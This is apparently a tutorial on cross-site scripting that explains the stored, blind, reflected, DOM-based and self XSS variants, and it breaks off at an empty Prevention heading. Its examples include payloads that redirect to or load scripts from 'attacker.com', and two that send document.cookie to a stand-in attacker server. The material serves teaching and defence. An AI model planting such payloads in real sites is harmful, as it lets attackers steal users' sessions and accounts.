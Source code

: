 An XXS vulnerability occurs when an attacker executes a custom script on the users browser. 
These attacks inject their code onto pages being viewed by other uses and can lead to things like leaking personal information, stealing cookies, changing site content, and or redirect the user to a malicious site. 
## Mechanisms
The attacker injects a script into webpages that users view, in order to understand XSS we first need to understand HTML and Javascript syntax.
Web pages are made up of HTML code that describe the pages structure and contents.

```html
<html>
	<h1>Welcome to my web page.</h1>
	<p>Thanks for visiting!</p>
</html>
```

HTML also allows us to embed images within pages, create user-input forms, link to external pages, and perform various other tasks.
It also allows us to execute scripts inside of HTML documents, its used to control client side application logic to create an interactive experience. 

```html
<html>
	<script>alert("Hello!");</script>
	<h1>Welcome to my web page.</h1>
	<p>Thanks for visiting!</p>
</html>
```

This script creates a pop-up message on the webpage that says `Hello!`.
This is called an `inline script` and are the cause for many XSS vulnerabilities. 

```html
<html>
	<script>alert("Hello!");</script>
	<h1>Welcome to my site.</h1>
	<h3>This is a cybersecurity newsletter that focuses on bug bounty news and write-ups. Please subscribe to my newsletter below to receive new cybersecurity articles in your email inbox.</h3>
	<form action"/subscribe" method="POST">
		<label for="email">Email:</label><br>
		<input type="text" id="email" value="Please enter your email.">
		<br><br>
		<input type="submit" value="Submit">
	</form>
</html>
```

This page contains a form that lets users subscribe to a newsletter.
After a users inputs their email the website confirms it by displaying it on the screen: 
```html
<p>Thanks! You have subscribed <b>example@gmail.com</b> to newsletter.</p>
```

What if the user decides to input a script instead of an email address? 

```html
<script>location="http://attacker.com";</script>
```

If the web application doesn't validate or sanitize the input before displaying the confirmation message the source code for the page would change.

```html
<p>Thanks! You have subscribed <b><script>location="http://attacker.com";</script></b> to newsletter.</p>
```

Validating user input means that the web app checks that the user input meets a certain standard. 
It should change special characters in the input that could be used as a means to interfere with our HTML logic. 
The example were seeing now would cause the user to be redirected to a malicious site.
XSS happens when attackers inject scripts in this way onto a page that another user is visiting. 

```html
<script src=http://attacker.com/xss.js></script>
```

Attackers can also manipulate the `src` attribute in HTML to load javascript files from external sources to execute in the users browser.
This example isn't really possible since there is no way to inject a script but they can redirect themselves to a malicious page. 

```html
http://subscribe.example.com?email=<script>location="http://attacker.com";</script>
```

However lets say the site also allows users to subscribe to the newsletter by visiting a URL, after they visit they will be subscribed, the confirmation will be shown on the users browser.
Attackers can inject a script that included in the link, the browser will think that the script is part of the actual website. 
The script could access resources stored on the browser like cookies and session tokens resulting in your information being stolen and possibly losing access to user accounts. 

```html
<script>image = new Image();
image.src='http://attacker_server_ip/?c='+document.cookie;</script>
```

This example of an XSS attack sends a request to the attack with the victims cookie as a URL parameter. 
## Types of XSS
There are 3 kinds of XSS attacks and the factor that differentiates them is how the payload travels before it gets delivered to the user. 
There are also a few XSS flaws that fall into their own special categories. 
#### Stored XSS
Occurs when the user input is stored on a server and retrieved unsafely.
The app doesn't validate user input, it stores it on its server and renderings it without being sanitized.
This is the most severe type of XSS attack, potential of attacking many or all users, only viewing the page is required to suffer this attack.
Attackers manage to permanently save their malicious code on the server for others to access.
We could see things like databases being affected, accessing server logs, etc.
For example a user can submit code in a comment field that could alter the page if the input isn't properly sanitized. 

```html
<script>alert('XSS by Drew')</script>
```

Submitting this code would be updated to look like this.

```html
<h2>Andrew's message</h2>
<p>What a great post! Thanks for sharing.</p>
<h2>Attacker's message</h2>
<p><script>alert('XSS by Drew')</script></p>
```

The comment field will display as blank but its running whatever code you type between the script tags, every time a user visits this page the malicious code will execute. 
Upon submitting it would become embedded on the forums pages HTML code.
#### Blind XSS
A blind XSS is a type of stored XSS vulnerability, the input is stored on the server and executed in another part of the app or is executed in a different app. 
For example a page that lets you send a message to support staff, the input is not sanitized and its rendered on the admin page. 
Harder to detect but just as dangerous as normal stored XSS, cant find them by looking for input reflected in the servers response. 
Used to attack administrators, extract their data, and take over their accounts. 
#### Reflected XSS
Occurs when the user input is returned to the user without being sent to the database, the data gets processed on the server side and returned to the user.
These issues happen when the server relies on user input to create pages that display search results or error messages. 
For example a user inputing a search term for a URL parameter, the page displays the term at the top of the results page. 

```html
<h2>You searched for abc; here are the results!</h2>
```

If the search displays user-submitted search strings on the result page search terms like the following would cause a code injection and would be executed in the victims browser upon visiting.
```html
https://example.com/search?q=<script>alert('XSS Attack')</script>
```

If an attacker can get a user to visit this URL the payload will be embedded on the page being viewed.
Victims browser executes whatever the attacker wants to do.
Reflected XSS allows attackers to execute code when users click their malicious link. 
#### DOM Based XSS
User input never leaves the browser, everything happens on the client side of the application, its all frontend. 
DOM (Document Object Model) is the model that the browser uses to render a web page, its how websites are structured. 
The attack goes after the local copy of the web page that exists in the victims browser, it avoids going through the server. 
The DOM can be attacked when the page takes in user data to dynamically alter the DOM based on that input, Javascript libraries like jQuery are prone to DOM based XSS attacks. 
Attackers send DOM based XSS payloads through the victims user input, it executes code that directly modifies the local source code. 

```php
https://example.com?locale=north+america
```

The pages client side code will use this locale to welcome the user.

```html
<h2>Welcome, user from north america!</h2>
```

The URL parameter isn't submitted to a server its used locally by the users browser to directly update the local DOM.
And the input isn't validated, attackers will use this to create malicious links.

```html
https://example.com?locale=<script>location='http://attacker_server_ip/?c='+document.cookie;</script>
```

This will embed the payload on the user's web page, the victims browser will execute the code.
These attacks happen when user input is rendered in an insecure manner. 
URL fragments are strings located at the end of a URL that begin with the `#` character, its used to automatically direct users to a specific section of the webpage or to transfer additional data. 

```php
https://example.com#about_us
```

This URL with a fragment takes the user to the `#about_us` section of the website they are visiting. 
#### Self XSS
This attack is based around tricking users into submitting inputs that are malicious payloads themselves.
For example, a field on a users dashboard is vulnerable to a stored XSS attack, since only the victim can see and edit it the attacker has to way to get at it. 
They would have to trick the user to changing the value into the XSS payload. 
Like a social media post telling you to paste a piece of code into your browser to get something cool, this was most likely aimed at tricking you into launching an XSS attack against yourself. 
Attackers embed a piece of malicious payload in the link and hid it using a URL shortener like `bit.ly`
This involves social engineering which is not usually a thing that is accepted as a valid submission in bug bounty programs. 
## Prevention
